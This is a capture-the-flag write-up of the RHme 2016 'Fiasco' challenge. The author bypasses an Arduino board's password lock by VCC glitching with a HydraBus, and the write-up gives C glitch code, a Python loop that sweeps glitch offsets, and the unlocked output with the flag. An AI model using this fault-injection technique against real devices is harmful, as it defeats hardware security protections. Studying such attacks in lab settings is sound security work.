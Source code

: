# rhme-2016 write-up Fiasco

<a name="fiasco"></a>
## Fiasco (Fault Injection - 100 pts)

Despite the discouragement from eletronic guys of the team I have decide to go 
for my VCC glitch setup ;)

We removed all capacitors located in the board and powered the arduino by an 
external power supply at 4.5V.

In order to perform the glitch we used an HydraBus with a glitch time as input.
We connected an HydraBus gpio pin to a mosfet to drive the current from 1 to 0 
and from 0 to 1 quickly. 

The piece of code is here below:

``` c
void glitch_n(uint32_t port_trigger, int pin_trigger, uint32_t port_, int pin_, 
	      uint32_t glitch_length, uint32_t glitch, uint32_t * glitch_offset)
{

        uint32_t t;
        t = bsp_gpio_pin_read(port_trigger,pin_trigger);
        while(t == bsp_gpio_pin_read(port_trigger,pin_trigger));

        t = 0;
        // Loop on glitchs
        while(t < glitch)
        {
                // Delay the glitch
                wait_nbcycles(glitch_offset[t++]);

                // Perform the glitch during glitch_length
                clr(port_,pin_);
                wait_nbcycles(glitch_length);
                set(port_,pin_);
        }

}
```

We do have a trigger that we connected to arduino's TX. In this setup,
the glitch_length has been set to 100.

The calibration of the glitch has been performed on easyfi.hex. And then we ran
this script to seek after a successful fault injection:
``` python
while(1):                                                                       
    # Setup Hydra to glitch VCC                                                 
    hydracon.flush()                                                            
    hydracon.write(glitch_cmd_ + "\n")                                          
    time.sleep(0.3)                                                             
    rhmecon.write("\r\n")                                                       
    rr = rhmecon.read_all()                                                     
    result.write(glitch_cmd_ + "\n")                                            
    result.write(rr)                                                            
    result.flush()                                                              
    print rr                                                                    
    print "glitch done"                                                         
                                                                                
    glitch_cmd_ = glitch_cmd                                                    
    for i in range(len(offsets)):                                               
        glitch_cmd_ = glitch_cmd_ + " offsets " + str(int(offsets[i]) + int(steps[i]))
        offsets[i] = str(int(offsets[i]) + int(steps[i]))
    print glitch_cmd_                                    
    if ("flag" in rr):                                   
        end_of_prgm() 

```
And here is the output obtained:

```
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191000
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191100
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191200
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191300
Chip unlocked^M
Your flag is: 02ab16ab3729fb2c2ec313e4669d319egpio glitch trigger PB0 pin PC15 length 100 offsets 191400
```
